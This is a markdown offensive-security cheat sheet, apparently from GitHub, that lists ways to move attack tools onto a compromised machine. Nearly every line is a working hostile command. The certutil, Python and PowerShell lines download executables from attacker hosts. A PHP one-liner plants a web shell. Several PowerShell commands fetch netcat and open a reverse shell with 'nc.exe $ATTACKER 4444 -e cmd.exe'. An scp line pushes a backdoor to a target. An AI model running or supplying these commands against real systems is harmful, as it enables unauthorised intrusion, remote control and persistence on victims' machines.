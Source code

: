 ```bash
```

#### CertUtil <a id="certutil"></a>

```bash
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

#### PHP <a id="php-1"></a>

```php
<?php file_put_contents("/var/tmp/shell.php", file_get_contents("http://10.11.0.245/shell.php")); ?>
```

#### Python <a id="python-1"></a>

```python
python -c "from urllib import urlretrieve; urlretrieve('http://10.11.0.245/nc.exe', 'C:\\Temp\\nc.exe')"
```

#### HTTP: Powershell <a id="http-powershell"></a>

```text
powershell -Command "& {(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe'); cmd /c nc.exe $ATTACKER 4444 -e cmd.exe" }
powershell -Command "& {(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe'); Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'" }
powershell -Command "(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe')"; Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'"
powershell (New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/file.exe','file.exe');(New-Object -com Shell.Application).ShellExecute('file.exe');

​# download using default proxy credentials and launch
powershell -command { $b=New-Object System.Net.WebClient; $b.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; $b.DownloadString("http://$attacker/nc.exe") | Out-File nc.exe; Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'" }
```

#### HTTP: VBScript <a id="http-vbscript"></a>

Copy and paste contents of [wget.vbs](https://github.com/mantvydasb/Offensive-Security-Cheatsheets/blob/master/wget-cscript) into a Windows Shell and then:

```bash
cscript wget.vbs http://$ATTACKER/file.exe localfile.exe
```

#### HTTP: Linux <a id="http-linux"></a>

```bash
wget http://$ATTACKER/file
curl http://$ATTACKER/file -O
scp ~/file/file.bin user@$TARGET:tmp/backdoor.py
```
